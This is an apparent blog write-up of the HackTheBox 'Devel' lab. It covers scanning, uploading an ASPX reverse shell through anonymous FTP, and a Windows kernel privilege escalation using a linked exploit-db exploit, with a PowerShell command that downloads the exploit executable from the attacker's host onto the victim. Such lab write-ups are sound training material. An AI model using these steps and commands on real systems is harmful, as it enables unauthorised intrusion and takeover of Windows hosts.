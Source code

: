 ```yaml
---
layout: post
title:  "HackTheBox - Devel"
date:   2021-07-31 17:06:25
categories: Pentesting
---
```


# ENUMERATION

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Running gobuster scan:

```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ gobuster dir -u http://10.10.10.5/  -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/31 00:51:54 Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 155] [--> http://10.10.10.5/aspnet_client/]
```
```s
┌──(kali㉿MaskdMafia)-[~/Downloads]
└─$ gobuster dir -u http://10.10.10.5/aspnet_client  -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.5/aspnet_client
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/07/31 00:44:27 Starting gobuster in directory enumeration mode
===============================================================
/system_web           (Status: 301) [Size: 166] [--> http://10.10.10.5/aspnet_client/system_web/]
```
# FOOTHOLD

We can access FTP via anonymous login but there doesn't seem to be anything interesting. However googling about aspnet_client file upload says that scripts can be uploaded in the directory containing aspnet_client directory for validation controls. Also since ASP.NET is enabled we have to upload a .asp/.aspx reverse shell for Windows only.

[aspx reverse shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx)

Browsing to http://10.10.10.5/reverse.aspx while simultaneously listening via netcat in my terminal gives me a reverse shell.

# PRIVILEGE ESCALATION

So basically , I tried searching for exploits in this list:

[windows privesc](https://www.fuzzysecurity.com/tutorials/16.html)

Searching for the OS build structure shows us an exploitdb script in C language.

[link to script](https://www.exploit-db.com/exploits/40564)

In order to run the file on our windows I made an executable file from the .c file and put it in the same place where we uploaded our reverse shell ( probably should work ).

Here's how to make a windows executable file:

[StackOverFlow link](https://stackoverflow.com/questions/38786014/how-to-compile-executable-for-windows-with-gcc-with-linux-subsystem)

Ugh but it shows up a lot of errors about some undefined reference but googling it tells us we need to add an extra tag (anyone who read the exploit would know about the tag but I didn't read so yea , **TIP OF THE DAY: READ THE EXPLOIT BEFORE EXECUTING**):

```
-lws2_32
```

And this time it compiles without errors.
HOWEVER, it does **NOT** execute. Stubborn Windows throws up some weird error:
```
c:\inetpub\wwwroot>40564.exe
40564.exe
This program cannot be run in DOS mode.
```
Searching for other ways to transfer the file and many frustrated minutes I find out you can transfer files via PowerShell.
Start a python web server in the directory where the file to be transferred is and execute it in the victim windows machine:

```s
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.8:3000/40564.exe', 'c:\inetpub\wwwroot\40564.exe')"
```
After this i executed the file and ***very fortunately*** finally got root. 
User flag is in c:\Users\babis\Desktop and Root flag is in c:\Users\Administrator\Desktop
